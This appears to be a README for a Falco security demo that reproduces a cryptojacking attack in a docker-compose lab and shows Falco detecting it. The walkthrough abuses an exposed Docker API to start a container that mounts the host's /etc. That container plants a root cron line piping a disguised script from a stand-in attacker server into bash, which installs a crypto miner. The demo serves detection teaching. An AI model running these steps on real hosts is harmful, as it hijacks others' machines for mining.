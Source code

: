 # Demo of Falco Detecting Cryptomining Exploit

## Introduction

Based on a [blog post](https://sysdig.com/blog/detecting-cryptojacking/) we wrote, this example shows how an overly permissive container environment can be exploited to install cryptomining software and how use of the exploit can be detected using Falco.

Although the exploit in the blog post involved modifying the cron configuration on the host filesystem, in this example we keep the host filesystem untouched. Instead, we have a container play the role of the "host", and set up everything using [docker-compose](https://docs.docker.com/compose/) and [docker-in-docker](https://hub.docker.com/_/docker/).

## Requirements

In order to run this example, you need Docker Engine >= 1.13.0 and docker-compose >= 1.10.0, as well as curl.

## Example architecture

The example consists of the following:

* `host-machine`: A docker-in-docker instance that plays the role of the host machine. It runs a cron daemon and an independent copy of the docker daemon that listens on port 2375. This port is exposed to the world, and this port is what the attacker will use to install new software on the host.
* `attacker-server`: A nginx instance that serves the malicious files and scripts using by the attacker.
* `falco`: A Falco instance to detect the suspicious activity. It connects to the docker daemon on `host-machine` to fetch container information.

All of the above are configured in the docker-compose file [demo.yml](./demo.yml).

A separate container is created to launch the attack:

* `docker123321-mysql` An [alpine](https://hub.docker.com/_/alpine/) container that mounts /etc from `host-machine` into /mnt/etc within the container. The json container description is in the file [docker123321-mysql-container.json](./docker123321-mysql-container.json).

## Example Walkthrough

### Start everything using docker-compose

To make sure you're starting from scratch, first run `docker-compose -f demo.yml down -v` to remove any existing containers, volumes, etc.

Then run `docker-compose -f demo.yml up --build` to create the `host-machine`, `attacker-server`, and `falco` containers.

You will see fairly verbose output from dockerd:

```
host-machine_1     | crond: crond (busybox 1.27.2) started, log level 6
host-machine_1     | time="2018-03-15T15:59:51Z" level=info msg="starting containerd" module=containerd revision=9b55aab90508bd389d7654c4baf173a981477d55 version=v1.0.1
host-machine_1     | time="2018-03-15T15:59:51Z" level=info msg="loading plugin "io.containerd.content.v1.content"..." module=containerd type=io.containerd.content.v1
host-machine_1     | time="2018-03-15T15:59:51Z" level=info msg="loading plugin "io.containerd.snapshotter.v1.btrfs"..." module=containerd type=io.containerd.snapshotter.v1
```

When you see log output like the following, you know that falco is started and ready:

```
falco_1            | Wed Mar 14 22:37:12 2018: Falco initialized with configuration file /etc/falco/falco.yaml
falco_1            | Wed Mar 14 22:37:12 2018: Parsed rules from file /etc/falco/falco_rules.yaml
falco_1            | Wed Mar 14 22:37:12 2018: Parsed rules from file /etc/falco/falco_rules.local.yaml
```

### Launch malicious container

To launch the malicious container, we will connect to the docker instance running in `host-machine`, which has exposed port 2375 to the world. We create and start a container via direct use of the docker API (although you can do the same via `docker run -H http://localhost:2375 ...`.

The script `launch_malicious_container.sh` performs the necessary POSTs:

* `http://localhost:2375/images/create?fromImage=alpine&tag=latest`
* `http://localhost:2375/containers/create?&name=docker123321-mysql`
* `http://localhost:2375/containers/docker123321-mysql/start`

Run the script via `bash launch_malicious_container.sh`.

### Examine cron output as malicious software is installed & run

`docker123321-mysql` writes the following line to `/mnt/etc/crontabs/root`, which corresponds to `/etc/crontabs/root` on the host:

```
* * * * * curl -s http://attacker-server:8220/logo3.jpg | bash -s
```

It also touches the file `/mnt/etc/crontabs/cron.update`, which corresponds to `/etc/crontabs/cron/update` on the host, to force cron to re-read its cron configuration. This ensures that every minute, cron will download the script (disguised as [logo3.jpg](attacker_files/logo3.jpg))  from `attacker-server` and run it.

You can see `docker123321-mysql` running by checking the container list for the docker instance running in `host-machine` via `docker -H localhost:2375 ps`. You should see output like the following:

```
CONTAINER ID        IMAGE               COMMAND                  CREATED              STATUS              PORTS               NAMES
68ed578bd034        alpine:latest       "/bin/sh -c 'echo '*…"   About a minute ago   Up About a minute                       docker123321-mysql
```

Once the cron job runs, you will see output like the following:

```
host-machine_1     | crond: USER root pid 187 cmd curl -s http://attacker-server:8220/logo3.jpg | bash -s
host-machine_1     | ***Checking for existing Miner program
attacker-server_1  | 172.22.0.4 - - [14/Mar/2018:22:38:00 +0000] "GET /logo3.jpg HTTP/1.1" 200 1963 "-" "curl/7.58.0" "-"
host-machine_1     | ***Killing competing Miner programs
host-machine_1     | ***Reinstalling cron job to run Miner program
host-machine_1     | ***Configuring Miner program
attacker-server_1  | 172.22.0.4 - - [14/Mar/2018:22:38:00 +0000] "GET /config_1.json HTTP/1.1" 200 50 "-" "curl/7.58.0" "-"
attacker-server_1  | 172.22.0.4 - - [14/Mar/2018:22:38:00 +0000] "GET /minerd HTTP/1.1" 200 87 "-" "curl/7.58.0" "-"
host-machine_1     | ***Configuring system for Miner program
host-machine_1     | vm.nr_hugepages = 9
host-machine_1     | ***Running Miner program
host-machine_1     | ***Ensuring Miner program is alive
host-machine_1     |   238 root       0:00 {jaav} /bin/bash ./jaav -c config.json -t 3
host-machine_1     | /var/tmp
host-machine_1     | runing.....
host-machine_1     | ***Ensuring Miner program is alive
host-machine_1     |   238 root       0:00 {jaav} /bin/bash ./jaav -c config.json -t 3
host-machine_1     | /var/tmp
host-machine_1     | runing.....
```

### Observe Falco detecting malicious activity

To observe Falco detecting the malicious activity, you can look for `falco_1` lines in the output. Falco will detect the container launch with the sensitive mount:

```
falco_1            | 22:37:24.478583438: Informational Container with sensitive mount started (user=root command=runc:[1:CHILD] init docker123321-mysql (id=97587afcf89c) image=alpine:latest mounts=/etc:/mnt/etc::true:rprivate)
falco_1            | 22:37:24.479565025: Informational Container with sensitive mount started (user=root command=sh -c echo '* * * * * curl -s http://attacker-server:8220/logo3.jpg | bash -s' >> /mnt/etc/crontabs/root && sleep 300 docker123321-mysql (id=97587afcf89c) image=alpine:latest mounts=/etc:/mnt/etc::true:rprivate)
```

### Cleanup

To tear down the environment, stop the script using ctrl-C and remove everything using `docker-compose -f demo.yml down -v`.

